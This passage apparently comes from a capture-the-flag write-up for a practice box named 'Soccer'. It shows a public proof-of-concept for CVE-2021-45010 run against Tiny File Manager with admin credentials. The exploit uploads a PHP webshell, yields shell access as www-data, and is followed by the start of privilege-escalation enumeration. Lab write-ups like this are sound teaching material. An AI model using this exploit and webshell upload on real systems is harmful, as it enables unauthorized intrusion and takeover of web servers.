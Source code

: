    Opening the site [http://soccer.htb/tiny/tinyfilemanager.php?p=&upload](http://soccer.htb/tiny/tinyfilemanager.php?p=&upload) I see that:
    ```
    Destination Folder: /var/www/html/ 
    ```

    Now I can perform the attack:<br>
    `cve-2021-45010 -u http://soccer.htb/tiny/ -l admin -p admin@123 -g tiny/uploads -r uploads/`
    ```
    PoC for CVE-2021-45010 - Tiny File Manager Version < 2.4.7

    [*] Attempting Login:
            [*] URL      : http://soccer.htb/tiny/
            [*] Username : admin
            [*] Password : admin@123
    [+] Session Cookie 🍪: q4863ddhm6fhqa6bvpj6pgsqqv
    [+] Login Success!
    [+] Vulnerable version detected: 2.4.3
    [*] Attempting to Leak Web Root...
            [+] Got Web Root: /var/www/html/tiny
    [*] Attempting Webshell Upload:
    [*] Filename : yllcuaazec.php
    [*] GUI Path  : tiny/uploads
    [*] Filesystem Path  ../../../../../../../../../../../var/www/html/tiny/uploads/yllcuaazec.php
    [+] Webshell Uploaded!
    [*] Starting Webshell at: http://soccer.htb/tiny/uploads/yllcuaazec.php
            [+] Info: Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
            [+] User: uid=33(www-data) gid=33(www-data) groups=33(www-data)

    Type quit to exit
    ```

    `id`
    ```
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

## Privesc www-data

- `find / -user www-data 2>/dev/null`
    ```
    /run/php
    /run/php/php7.4-fpm.sock
    /var/lib/nginx/proxy
    /var/lib/nginx/proxy/7
    /var/lib/nginx/proxy/7/00
    /var/lib/nginx/proxy/7/01
    /var/lib/nginx/proxy/4
    /var/lib/nginx/proxy/4/02
    /var/lib/nginx/proxy/4/00
    /var/lib/nginx/proxy/4/01
    /var/lib/nginx/proxy/2
    /var/lib/nginx/proxy/2/02
    /var/lib/nginx/proxy/2/00
    /var/lib/nginx/proxy/2/01
    /var/lib/nginx/proxy/8
    /var/lib/nginx/proxy/8/00
    /var/lib/nginx/proxy/8/01
    /var/lib/nginx/proxy/6
    /var/lib/nginx/proxy/6/00
    /var/lib/nginx/proxy/6/01
    /var/lib/nginx/proxy/1
    /var/lib/nginx/proxy/1/02
    /var/lib/nginx/proxy/1/00
